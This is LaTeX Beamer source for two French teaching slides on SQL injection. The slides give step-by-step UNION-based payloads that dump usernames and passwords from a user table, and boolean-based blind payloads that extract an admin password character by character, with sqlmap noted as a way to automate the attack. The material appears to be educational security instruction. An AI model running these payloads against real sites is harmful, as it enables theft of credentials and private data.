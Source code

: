 \documentclass{beamer}
\def\emptyline{\vspace{10pt}}
\begin{document}
\subsection{Techniques avancées}

\begin{frame}[fragile]
\frametitle{Injection SQL -- UNION-based (pas-à-pas)}

\textbf{Étape 1 :} Déterminer le nombre de colonnes avec \texttt{ORDER BY} :
\begin{lstlisting}[basicstyle=\ttfamily\scriptsize,frame=single]
http://site.com/product?id=1 ORDER BY 1--    (OK)
http://site.com/product?id=1 ORDER BY 2--    (OK)
http://site.com/product?id=1 ORDER BY 3--    (Erreur!)
\end{lstlisting}
$\rightarrow$ La requête originale a \textbf{2 colonnes}.

\emptyline
\textbf{Étape 2 :} Utiliser \texttt{UNION SELECT} pour extraire des données :
\begin{lstlisting}[basicstyle=\ttfamily\scriptsize,frame=single]
http://site.com/product?id=-1 UNION SELECT Pseudo, Passe
                                     FROM t_user --
\end{lstlisting}

\begin{itemize}
\item \texttt{id=-1} : aucun produit ne correspond $\rightarrow$ seuls les résultats du \texttt{UNION} s'affichent.
\item L'attaquant peut ainsi \alert{extraire} n'importe quelle table : utilisateurs, commandes, données bancaires...
\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Injection SQL aveugle -- Boolean-based}

Quand l'application \alert{n'affiche pas} les résultats SQL ni les erreurs, le pirate pose des questions vrai/faux.

\emptyline
\textbf{Exemple :} extraire le premier caractère du mot de passe admin :
\begin{lstlisting}[basicstyle=\ttfamily\scriptsize,frame=single]
' AND SUBSTRING((SELECT Passe FROM t_user
  WHERE Pseudo='admin'),1,1)='a' --    (page normale = VRAI)

' AND SUBSTRING((SELECT Passe FROM t_user
  WHERE Pseudo='admin'),1,1)='b' --    (page differente = FAUX)
\end{lstlisting}

\begin{itemize}
\item Le pirate teste chaque caractère possible (a-z, 0-9...).
\item Il observe la \alert{différence de comportement} de la page (contenu, taille, code HTTP).
\item Processus répété pour chaque position $\rightarrow$ extraction \textbf{caractère par caractère}.
\item Lent mais efficace : automatisable avec \texttt{sqlmap}.
\end{itemize}
\end{frame}
\end{document}
